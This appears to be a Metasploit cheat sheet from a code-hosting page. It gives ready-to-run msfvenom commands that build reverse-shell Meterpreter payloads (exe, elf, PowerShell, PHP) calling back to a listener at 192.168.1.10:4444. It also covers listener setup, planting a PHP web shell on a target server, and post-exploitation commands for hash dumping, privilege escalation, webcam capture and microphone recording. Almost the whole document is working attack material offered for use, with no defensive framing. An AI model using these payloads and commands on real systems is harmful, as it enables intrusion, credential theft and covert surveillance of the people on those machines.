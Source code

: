 ## 1. Payload Generation with `msfvenom`

### Basic Payload Creation
```bash
msfvenom -p <payload> LHOST=<IP> LPORT=<PORT> -f <format> > <output_file>
```
- **`-p <payload>`**: Specify the payload type (e.g., `windows/meterpreter/reverse_tcp`, `linux/x86/shell/reverse_tcp`).
- **`-f <format>`**: Output format (e.g., `exe`, `elf`, `apk`, `raw`, `psh`).
- **`LHOST`**: Your listening IP address.
- **`LPORT`**: Your listening port.

Example for Windows:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > payload.exe
```

Example for Linux:
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f elf > payload.elf
```

Example for PowerShell:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f psh > payload.ps1
```

---

## 2. Converting a Reverse Shell to Meterpreter
If you already have a reverse shell, you can upgrade it to a Meterpreter session:
```bash
use post/multi/manage/shell_to_meterpreter
set SESSION <session_id>
run
```

---

## 3. Executing the Payload with Metasploit

### Start Metasploit
```bash
msfconsole
```

### Configure the Listener
```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.10
set LPORT 4444
run
```

---

## 4. Creating a PHP Payload
Generate PHP Meterpreter payload:
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f raw > shell.php
```

Place `shell.php` on the target server. When executed via the web browser, it will connect back to your listener.

Start listener in Metasploit:
```bash
use exploit/multi/handler
set PAYLOAD php/meterpreter_reverse_tcp
set LHOST 192.168.1.10
set LPORT 4444
run
```

---

## 5. Useful Meterpreter Commands

| Command                           | Description                        |
| --------------------------------- | ---------------------------------- |
| `sysinfo`                         | Display system information.        |
| `getuid`                          | Show current user.                 |
| `getsystem`                       | Attempt privilege escalation.      |
| `hashdump`                        | Dump password hashes.              |
| `search -f <filename>`            | Search for files.                  |
| `download <file>`                 | Download a file from the target.   |
| `upload <file>`                   | Upload a file to the target.       |
| `screenshot`                      | Take a screenshot of the target.   |
| `webcam_snap`                     | Take a snapshot from the webcam.   |
| `record_mic`                      | Record audio from the microphone.  |
| `shell`                           | Spawn a standard shell.            |
| `background`                      | Send session to background.        |
| `sessions -i <id>`                | Interact with a specific session.  |
| `post/windows/gather/enum_shares` | Enumerate shared files on Windows. |
| `post/linux/gather/hashdump`      | Dump hashes on Linux.              |

---

## 6. Essential Metasploit Commands

| Command                        | Description                                                                    |
| ------------------------------ | ------------------------------------------------------------------------------ |
| `search <keyword>`             | Search for exploits, payloads, or auxiliary modules related to a keyword.      |
| `search type:exploit name:<x>` | Search specifically for exploits containing `<x>` in their name.               |
| `search type:payload`          | List all payloads.                                                             |
| `use <module_path>`            | Load a specific module (e.g., `use exploit/windows/smb/ms17_010_eternalblue`). |
| `info`                         | Show detailed information about the loaded module.                             |
| `show payloads`                | Show compatible payloads for the loaded module.                                |
| `show exploits`                | List available exploits.                                                       |
| `show options`                 | Show configurable options for the loaded module.                               |
| `set <option> <value>`         | Set a specific option for the module.                                          |
| `exploit`                      | Run the loaded exploit.                                                        |
| `run`                          | Alias for `exploit`.                                                           |
| `sessions`                     | List active sessions.                                                          |
| `sessions -i <id>`             | Interact with a specific session.                                              |
| `jobs`                         | List background jobs.                                                          |
| `jobs -k <id>`                 | Kill a background job.                                                         |
| `load <plugin>`                | Load a Metasploit plugin.                                                      |
